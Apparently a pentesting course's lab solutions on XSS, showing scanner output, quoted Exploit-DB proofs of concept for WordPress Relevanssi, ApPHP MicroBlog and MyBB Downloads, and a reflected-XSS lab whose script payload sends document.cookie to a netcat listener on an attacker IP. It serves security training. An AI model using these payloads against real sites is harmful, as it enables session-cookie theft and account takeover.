

# XSS Attacks

Cross-site scripting (XSS) is one of the most commonly exploited vulnerabilities in web applications. As a web application pentester or bug bounty hunter, it is vitally important to understand what causes XSS vulnerabilities, how they can be identified, and how they can be exploited. Cross-site scripting (XSS) vulnerabilities are often misunderstood and overlooked by developers primarily due to a lack of knowledge on how JavaScript can be weaponized by attackers.

This course will introduce you to Cross-site scripting, explain the difference between Stored, Reflected, and DOM-Based XSS, and will show you how to identify and exploit XSS vulnerabilities in web applications through a mix of both manual and automated techniques.

---

## Course Introduction

### Course Topic Overview

- Identifying and Exploiting Reflected XSS Vulnerabilities
- Identifying and Exploiting Stored XSS Vulnerabilities
- Identifying and Exploiting DOM-Based XSS Vulnerabilities
- Identifying and Exploiting XSS Vulnerabilities with Automated Tools (XSSer)

### Prerequisites

- Basic familiarity with HTTP/HTTPS
- Basic familiarity with OWASP ZAP/Burp Suite
- Basic familiarity with JavaScript

### Learning Objectives

- You will get an introduction to what XSS vulnerabilities are, how they are caused and how they can be identified.
- You will get an introduction to reflected XSS vulnerabilities and how they can be identified and exploited.
- You will get an introduction to stored XSS vulnerabilities and how they can be identified and exploited.
- You will get an introduction to DOM-Based XSS vulnerabilities and how they can be identified and exploited.
- You will learn how to utilize automated tools and web proxies to identify and exploit XSS vulnerabilities in web applications.

---
---

## Introduction to XSS Attacks

### JavaScript Primer

#### Lab Solution

`vim ./javascript_demo_1.html`:
```html
<DOCTYPE html>
<html>
	<head>
		<title>Test Website</title>
		<script>alert("TEST");</script>
		<script>windows.location.replace("https://www.google.com/");</script>
	</head>
	<body>
		<h1>Welcome to the Test Website</h1>
	</body>
</html>
```


`vim ./javascript_demo_2.html`:
```html
<DOCTYPE html>
<html>
	<head>
		<title>Test Website</title>
		<script type="text/javascript">
		function Warn() {
		    alert("This is a warning message!");
		    document.write("This is a warning message!");
		}
		Warn();
		</script>
	</head>
	<body>
		<h1>Welcome to the Test Website</h1>
	</body>
</html>
```


### Anatomy of an XSS Attack

#### Lab Solution


`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /lab/webapp/htmli/1?email=TEST@test.com&password=TEST123📌 HTTP/1.1
Host: pentesteracademylab.appspot.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://pentesteracademylab.appspot.com/lab/webapp/htmli/1
Connection: close
Upgrade-Insecure-Requests: 1
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Server: nginx/1.10.3
Date: Tue, 10 Dec 2024 09:35:17 GMT
Content-Type: text/html; charset=utf-8
Connection: close
cache-control: no-cache
Content-Length: 4121

<!DOCTYPE html>
<html lang="en">

[...]

      <form class="form-signin">
        <h2 class="form-signin-heading">Please sign in</h2>
        <input type="text" value="TEST@test.com"📌 class="input-block-level" placeholder="Email address" name="email">
        <input type="password" class="input-block-level" placeholder="Password" name="password">
        <label class="checkbox">
          <input type="checkbox" value="remember-me" name="DoesThisMatter"> Remember me
        </label>
        <button class="btn btn-large btn-primary" type="submit">Sign in</button>
      </form>

[...]
```


---

## Reflected XSS

### Introduction to Reflected XSS

#### Lab Environment

**Reflected XSS**

The user input can never be trusted, proper sanitization of the user input must be done before it is processed otherwise it can lead to severe attacks such as XSS, SQLi, etc.   

In this lab, we will take a look at how to exploit an application vulnerable to Reflected Cross-Site Scripting attack. 

**Objective**: Perform Reflected XSS attack on the application and retrieve the cookies.

URL: `https://7vabz65evl.execute-api.ap-southeast-1.amazonaws.com/default/`.

#### Lab Solution


### Exploiting Reflected XSS Vulnerabilities in WordPress

#### Lab Environment

**WordPress Relevanssi plugin XSS**

In this exercise, the attacker has admin access already so there is nothing more to be done. However, looks like the admin access does lead to an XSS attack. So you can try to find this XSS as purely academic exercise.

[WordPress](https://wordpress.org/) is a free and open source full-featured CMS for hosting blogs and web portals. It is based on PHP and MySQL. It is one of the most popular CMS.

<u>WordPress Relevanssi Plugin (4.0.4) is vulnerable to a Reflected Cross Site Scripting documented in CVE-2018-9034</u>. 

The following username and password may be used to explore the application and/or find a vulnerability which might require authenticated access:
- Username: "admin"
- Password: "password1".

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution


`wpscan --url https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/ [172.104.136.144]
[+] Started: Tue Dec 10 05:45:31 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - server: Apache/2.4.7 (Ubuntu)
 |  - x-powered-by: PHP/5.5.9-1ubuntu4.25
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/feed/, <generator>https://wordpress.org/?v=4.8</generator>
 |  - https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/comments/feed/, <generator>https://wordpress.org/?v=4.8</generator>

[+] WordPress theme in use: twentyseventeen

[...]

[+] Enumerating All Plugins (via Passive Methods)📌

[i] No plugins Found.📌

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:05 <==========================================================================================> (137 / 137) 100.00% Time: 00:00:05

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Dec 10 05:45:45 2024
[+] Requests Done: 164
[+] Cached Requests: 11
[+] Data Sent: 52.273 KB
[+] Data Received: 516.069 KB
[+] Memory used: 287.344 MB
[+] Elapsed time: 00:00:14
```

`wpscan --url https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/ --enumerate p --plugins-detection aggressive`:
```
[...]

[+] Enumerating Most Popular Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:00:57 <=======================================================================================> (1499 / 1499) 100.00% Time: 00:00:57
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:📌

[+] relevanssi📌
 | Location: https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/
 | Last Updated: 2024-12-03T11:47:00.000Z
 | Readme: https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/readme.txt
 | [!] The version is out of date, the latest version is 4.24.2
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/, status: 200
 |
 | Version: 4.0.5 (100% confidence)📌
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Dec 10 05:50:35 2024
[+] Requests Done: 1520
[+] Cached Requests: 24
[+] Data Sent: 496.774 KB
[+] Data Received: 791.425 KB
[+] Memory used: 261.848 MB
[+] Elapsed time: 00:01:05
```

`wpscan --url https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/ --enumerate p --plugins-detection aggressive --api-token '<API-TOKEN>'`:
```
[...]

[+] Enumerating Most Popular Plugins (via Aggressive Methods)📌
 Checking Known Locations - Time: 00:00:53 <=======================================================================================> (1499 / 1499) 100.00% Time: 00:00:53
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] relevanssi📌
 | Location: https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/
 | Last Updated: 2024-12-03T11:47:00.000Z
 | Readme: https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/readme.txt
 | [!] The version is out of date, the latest version is 4.24.2
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/, status: 200
 |
 | [!] 7 vulnerabilities identified:
 |
 | [!] Title: Relevanssi - A Better Search < 4.14.3 - Unauthenticated Stored Cross-Site Scripting
 |     Fixed in: 4.14.3
 |     References:
 |      - https://wpscan.com/vulnerability/ad08bd11-e4b0-4bb1-9481-3c9651f50466
 |      - https://plugins.trac.wordpress.org/changeset/2616189/relevanssi
 |
 | [!] Title: Relevanssi - Subscriber+ Unauthorised AJAX Calls
 |     Fixed in: 4.14.6
 |     References:
 |      - https://wpscan.com/vulnerability/c0c27674-715e-464d-ab38-0774128e6741
 |      - https://plugins.trac.wordpress.org/changeset/2648642
 |      - https://plugins.trac.wordpress.org/changeset/2648980
 |
 | [!] Title: Relevanssi (Free < 4.22.0, Premium < 2.25.0) - Unauthenticated Private/Draft Post Disclosure
 |     Fixed in: 4.22.0
 |     References:
 |      - https://wpscan.com/vulnerability/0c96a128-4473-41f5-82ce-94bba33ca4a3
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7199
 |      - https://www.relevanssi.com/release-notes/premium-2-25-free-4-22-release-notes/
 |
 | [!] Title: Relevanssi < 4.22.1 - Unauthenticated Query Log Export
 |     Fixed in: 4.22.1
 |     References:
 |      - https://wpscan.com/vulnerability/79c73a0a-087f-4971-a95f-c21d1d4db26e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-1380
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/7b2a3b17-0551-4e02-8e6a-ae8d46da0ef8
 |
 | [!] Title: Relevanssi – A Better Search < 4.22.2 - Missing Authorization to Unauthenticated Count Option Update
 |     Fixed in: 4.22.2
 |     References:
 |      - https://wpscan.com/vulnerability/7b3ce9a6-17e1-42e1-b220-11c69300a9ca
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-3213
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/e625130f-8e21-4baf-9d3c-4cbb806b9e52
 |
 | [!] Title: Relevanssi < 4.23.0 - Unauthenticated Information Exposure
 |     Fixed in: 4.23.0
 |     References:
 |      - https://wpscan.com/vulnerability/0da3d56a-b3a8-43ac-873e-40cbda74165d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-7630
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/3fa78f4e-ede2-4863-a2d7-99bd8c7b5912
 |
 | [!] Title: Relevanssi < 4.23.1 - Contributor+ Stored XSS
 |     Fixed in: 4.23.1
 |     References:
 |      - https://wpscan.com/vulnerability/5f25646d-b80b-40b1-bcaf-3b860ddc4059
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9021
 |      - https://research.cleantalk.org/CVE-2024-XXXX/
 |      - https://www.youtube.com/watch?v=https://drive.google.com/file/d/1qhjBeZVX3rCGxXm18cA6XT42wEwKLhcj/view?usp=sharing
 |
 | Version: 4.0.5 (100% confidence)📌
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/relevanssi/readme.txt

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 3
 | Requests Remaining: 22

[+] Finished: Tue Dec 10 05:53:27 2024
[+] Requests Done: 1520
[+] Cached Requests: 29
[+] Data Sent: 496.423 KB
[+] Data Received: 789.274 KB
[+] Memory used: 234.203 MB
[+] Elapsed time: 00:01:03
```
❌


`searchsploit 'relevanssi'`:
```
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Relevanssi - 'category_name' SQL Injection                          | php/webapps/39109.txt
WordPress Plugin Relevanssi 2.7.2 - Persistent Cross-Site Scripting                  | php/webapps/16233.txt
WordPress Plugin Relevanssi 4.0.4 - Reflected Cross-Site Scripting                   | php/webapps/44366.txt📌
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/44366.txt ./`

`cat ./44366.txt`:
```
# Exploit Title : Relevanssi Wordpress Search Plugin Reflected Cross Site Scripting (XSS)📌
# Date: 23-03-2018
# Exploit Author : Stefan Broeder
# Contact : https://twitter.com/stefanbroeder
# Vendor Homepage: https://www.relevanssi.com
# Software Link: https://wordpress.org/plugins/relevanssi
# Version: 4.0.4📌
# CVE : CVE-2018-9034
# Category : webapps

Description
===========
Relevanssi is a WordPress plugin with more than 100.000 active installations. Version 4.0.4 (and possibly previous versions) are affected by a Reflected XSS vulnerability.

Vulnerable part of code
=======================
File: relevanssi/lib/interface.php:1055 displays unescaped value of $_GET variable 'tab'.📌

..
1049 if( isset( $_REQUEST[ 'tab' ] ) ) {
1050 $active_tab = $_REQUEST[ 'tab' ];📌
1051 } // end if
1052
1053 if ($active_tab === "stopwords") $display_save_button = false;
1054
1055 echo "<input type='hidden' name='tab' value='$active_tab' />";📌
..

Impact
======
Arbitrary JavaScript code can be run on browser side if a logged in WordPress administrator is tricked to click on a link or browse a URL under the attacker control.📌
This can potentially lead to creation of new admin users, or remote code execution on the server.

Proof of Concept
============
In order to exploit this vulnerability, the attacker needs to have the victim visit the following link:

/wp-admin/options-general.php?page=relevanssi%2Frelevanssi.php&tab='><SCRIPT>var+x+%3D+String(%2FTEST%2F)%3Bx+%3D+x.substring(1%2C+x.length-1)%3Balert(x)<%2FSCRIPT><BR+📌

Please note that quotes and double quotes are properly escaped by WordPress, however javascript escaping (\) is applied while the value is in an HTML attribute. There, escaping a quote by \' has no effect (&quot should be used). This allows us to break out of the HTML attribute and start the script tag. Within the script, quotes are properly escaped but there are ways to obfuscate javascript without requiring these symbols as can be seen in above payload.


Solution
========

Update to version 4.1
```

`burpsuite` > `Decoder`

`Input`:
```
/wp-admin/options-general.php?page=relevanssi%2Frelevanssi.php&tab='><SCRIPT>var+x+%3D+String(%2FXSS%2F)%3Bx+%3D+x.substring(1%2C+x.length-1)%3Balert(x)<%2FSCRIPT><BR+
```
`Decode as URL`:
```
/wp-admin/options-general.php?page=relevanssi/relevanssi.php&tab='><SCRIPT>var x = String(/XSS/);x = x.substring(1, x.length-1);alert(x)</SCRIPT><BR 
```

`firefox "https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-admin/options-general.php?page=relevanssi/relevanssi.php&tab='><SCRIPT>var x = String(/TEST/);x = x.substring(1, x.length-1);alert(x)</SCRIPT><BR" &`


`firefox "https://kld7eiv6015o2an0dnaddvazz.eu-central-7.attackdefensecloudlabs.com/wp-admin/options-general.php?page=relevanssi/relevanssi.php&tab='><SCRIPT>alert(document.cookie);</SCRIPT><BR" &`


### Cookie Stealing via Reflected XSS

#### Lab Environment

**Reflected XSS**

The user input can never be trusted, proper sanitization of the user input must be done before it is processed otherwise it can lead to severe attacks such as XSS, SQLi, etc.   

In this lab, we will take a look at how to exploit an application vulnerable to Reflected Cross-Site Scripting attack. 

**Objective**: Perform Reflected XSS attack on the application and retrieve the cookies.

URL: `https://7vabz65evl.execute-api.ap-southeast-1.amazonaws.com/default/`.

#### Lab Solution


`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.49.5📌 netmask 255.255.255.0  broadcast 10.10.49.255
        ether 02:42:0a:0a:31:05  txqueuelen 0  (Ethernet)
        RX packets 915  bytes 875599 (855.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 749  bytes 73015 (71.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`nc -lnvp 4444`:
```
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

`burpsuite` > `Decoder`

`Input`:
```
<script>new Image().src='http://10.10.49.5:4444/?cookie=' + encodeURI(document.cookie);</script>
```
`Encode as URL`:
```
%3c%73%63%72%69%70%74%3e%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%34%39%2e%35%3a%34%34%34%34%2f%3f%63%6f%6f%6b%69%65%3d%27%20%2b%20%65%6e%63%6f%64%65%55%52%49%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3c%2f%73%63%72%69%70%74%3e
```

`curl 'https://7vabz65evl.execute-api.ap-southeast-1.amazonaws.com/default/value=%3c%73%63%72%69%70%74%3e%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%34%39%2e%35%3a%34%34%34%34%2f%3f%63%6f%6f%6b%69%65%3d%27%20%2b%20%65%6e%63%6f%64%65%55%52%49%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3c%2f%73%63%72%69%70%74%3e'`:
```
{"message":"Missing Authentication Token"}
```
❌

`firefox 'https://7vabz65evl.execute-api.ap-southeast-1.amazonaws.com/default/value=%3c%73%63%72%69%70%74%3e%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%34%39%2e%35%3a%34%34%34%34%2f%3f%63%6f%6f%6b%69%65%3d%27%20%2b%20%65%6e%63%6f%64%65%55%52%49%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3c%2f%73%63%72%69%70%74%3e' &`:
```
```

```
Ncat: Connection from 10.10.49.5.
Ncat: Connection from 10.10.49.5:39138.
GET /?cookie=FLAG=853676dd178993b390213bb70d68f08a;%20FLAG=853676dd178993b390213bb70d68f08a🚩 HTTP/1.1
Host: 10.10.49.5:4444
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

---

## Stored XSS

### Introduction to Stored XSS

#### Lab Environment

**ApPHP MicroBlog**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be used to attack other users. Stored Cross Site Scripting could be triggered even by unauthenticated users.

In the exercise below, <u>the attacker is not authenticated to the web application and needs to find a stored XSS attack on it</u>.

<u>A version of ApPHP MicroBlog is vulnerable to a stored XSS attack</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

`searchsploit 'apphp'`:
```
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
ApPHP MicroBlog 1.0.1 - Multiple Vulnerabilities                      | php/webapps/33030.txt
ApPHP MicroBlog 1.0.1 - Remote Command Execution                      | php/webapps/33070.py
ApPHP MicroBlog 1.0.2 - Cross-Site Request Forgery (Add New Author)   | php/webapps/40506.html
ApPHP MicroBlog 1.0.2 - Persistent Cross-Site Scripting               | php/webapps/40505.txt
ApPHP MicroCMS 3.9.5 - Cross-Site Request Forgery (Add Admin)         | php/webapps/40517.html
ApPHP MicroCMS 3.9.5 - Persistent Cross-Site Scripting                | php/webapps/40516.txt
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/40505.txt ./`

`cat ./40505.txt`:
```
# Exploit Title :              ApPHP MicroBlog 1.0.2  - Stored Cross
Site Scripting📌
# Author :                      Besim
# Google Dork :
# Date :                         12/10/2016
# Type :                         webapps
# Platform :                    PHP
# Vendor Homepage :   -
# Software link :            http://www.scriptdungeon.com/jump.php?ScriptID=9162

Description :

Vulnerable link : http://site_name/path/index.php?page=posts&post_id=📌

Stored XSS Payload ( Comments ): *

# Vulnerable URL :
http://site_name/path/index.php?page=posts&post_id= - Post comment section📌
# Vuln. Parameter : comment_user_name📌

############  POST DATA ############

task=publish_comment&article_id=69&user_id=&comment_user_name=<script>alert(7);</script>&comment_user_email=besimweptest@yopmail.com&comment_text=Besim&captcha_code=DKF8&btnSubmitPC=Publish
your comment

############ ######################
```


`burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /index.php?page=posts&post_id=69📌 HTTP/2
Host: b3zasx5ejj0kwq5u88y1ogkzp.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=3qr585i4fg1q5j0s9gq25j9uf3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 190
Origin: https://b3zasx5ejj0kwq5u88y1ogkzp.eu-central-6.attackdefensecloudlabs.com
Referer: https://b3zasx5ejj0kwq5u88y1ogkzp.eu-central-6.attackdefensecloudlabs.com/index.php?page=posts&post_id=69
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

task=publish_comment&article_id=69&user_id=&comment_user_name=TEST&comment_user_email=TEST%40test.com&comment_text=test+test+test+test+test&captcha_code=DN6W&btnSubmitPC=Publish+your+comment📌
```


`view-source:https://b3zasx5ejj0kwq5u88y1ogkzp.eu-central-6.attackdefensecloudlabs.com/index.php?page=posts&post_id=69`:
```html
[...]

<html><head></head><body><div class="posts_contents"><div id="commentsWrapper" style="display:none;"><div id="commentsPublished"><div class="comment"><div class="comment_user_name"> <b>Rob</b> said...</div><div class="comment_test">That's cool!</div><div class="comment_date"><i>Published: 2010-07-08 10:20:36</i></div></div><div class="comment"><div class="comment_user_name"> <b>TEST</b> said...</div><div class="comment_test">test test test test test📌</div><div class="comment_date"><i>Published: 2024-12-10 05:54:50</i></div></div><div class="comment"><div class="comment_user_name"> <b>TEST</b> said...</div><div class="comment_test">test test test test test</div><div class="comment_date"><i>Published: 2024-12-10 05:57:57</i></div></div>
</div></div></div></body></html>

[...]
```


###  Exploiting Stored XSS Vulnerabilities in MyBB Forum

#### Lab Environment

**MyBB Downloads Plugin**

In this exercise, the attacker has access to a non-privileged account. And this, access does lead to an XSS attack. In such cases, this can be used to attack admin or other users. Even if it doesn't, you can try to find this XSS as purely academic exercise.

<u>A version of MyBB Downloads Plugin is vulnerable to a stored cross site scripting attack</u>.

The following username and password may be used to explore the application and/or find a vulnerability which might require authenticated access:
- Username: "test2"
- Password: "password".

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

`mybbscan`:
```
MyBBscan - v3.2.0
Made By: 0xB9
Twitter: 0xB9sec

[+] MyBBscan is up to date
------------------------------------------------------------

Examples:
https://MyBBforum.com/                                                                                                                                                                       
https://MyBBforum.com/forum/                                                                                                                                                                 
https://subdomain.MyBBforum.com/                                                                                                                                                             
https://127.0.0.1/                                                                                                                                                                           
------------------------------------------------------------
Enter MyBB forum URL-> https://4kpdpvolcce5q0l08cevmm7jo.eu-central-5.attackdefensecloudlabs.com/
[~] Scanning-> https://4kpdpvolcce5q0l08cevmm7jo.eu-central-5.attackdefensecloudlabs.com/
------------------------------------------------------------
[!] Possible Vulnerable Plugin!📌
Vulnerable Plugin: Downloads📌
Version: 2.0.3📌
Vulnerability Type: Cross-Site Scripting & SQLi📌
XSS: https://packetstormsecurity.com/files/147061/MyBB-Downloads-2.0.3-Cross-Site-Scripting.html
SQLi: https://packetstormsecurity.com/files/149993/MyBB-Downloads-2.0.3-SQL-Injection.html
--------------------------------------------------------------------------------------------------------------------------------------------
[!] Possible Vulnerable Plugin!
Vulnerable Plugin: Recent Threads
Version: 1.0
Vulnerability Type: Cross-Site Scripting
Information: https://packetstormsecurity.com/files/148046/MyBB-Recent-Threads-1.0-Cross-Site-Scripting.html
--------------------------------------------------------------------------------------------------------------------------------------------

[+] Scan complete!
```


`searchsploit 'mybb downloads'`:
```
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
MyBB Downloads 2.0.3 - SQL Injection                         | php/webapps/45747.txt
MyBB Plugin Downloads 2.0.3 - Cross-Site Scripting           | php/webapps/44400.txt
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/44400.txt ./`

`cat ./44400.txt`:
```
# Exploit Title: MyBB Downloads Plugin v2.0.3 - Persistent XSS📌
# Date: 3/28/18
# Author: 0xB9
# Contact: luxorforums.com/User-0xB9 or 0xB9[at]protonmail.com
# Software Link: https://community.mybb.com/mods.php?action=view&pid=854
# Version: 2.0.3
# Tested on: Ubuntu 17.10


1. Description:
It is a plugin which adds a page to download files. If enabled, regular members can add new downloads to the page after admin approval.


2. Proof of Concept:

Persistent XSS
- Go to downloads.php page📌
- Create a New Download📌
- Add the following to the title <BODY ONLOAD=alert('XSS')>📌
- Now when the admin goes to validate your download he will be alerted


3. Solution:
Update to the latest release

Patch: https://github.com/vintagedaddyo/MyBB_Plugin-Downloads/pull/1/commits 
```


---

## DOM-Based XSS

### Exploiting DOM-Based XSS Vulnerabilities

#### Lab Solution



`view-source:http://pentesteracademylab.appspot.com/lab/webapp/jfp/dom?statement=10+10`:
```html
[...]

   <h1 align="center"></h1>
        <h2>Mathemagic</h2>

      <b><div id="result">Fail</div></b>

      <script>

          var statement = document.URL.split("statement=")[1];📌

          document.getElementById("result").innerHTML = eval(statement);📌

      </script>

[...]
```


---

## XSS Tools

### Identifying and Exploiting XSS Vulnerabilities with XSSer

#### Lab Environment

**XSS Attack with XSSer**

Web Application Pentesting Tools can prove to be very helpful while performing penetration testing. 

In this lab exercise, we will take a look at how to use [XSSer](https://tools.kali.org/web-applications/xsser) to perform XSS attack on the [Mutillidae](https://github.com/webpwnized/mutillidae) web application.

**Objective**: <u>Perform XSS Attack on the web application with XSSer</u>.

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address `192.X.Y.2`. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address `192.X.Y.1`.

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.121.183.2📌 netmask 255.255.255.0  broadcast 192.121.183.255
        ether 02:42:c0:79:b7:02  txqueuelen 0  (Ethernet)
        RX packets 18  bytes 1516 (1.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`sudo nmap -Pn -sSV -p80,443 192.121.183.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-12-10 19:58 IST
Nmap scan report for target-1 (192.121.183.3)
Host is up (0.000052s latency).

PORT    STATE  SERVICE VERSION
80/tcp  open   http    Apache httpd 2.4.7 ((Ubuntu))📌
443/tcp closed https
MAC Address: 02:42:C0:79:B7:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
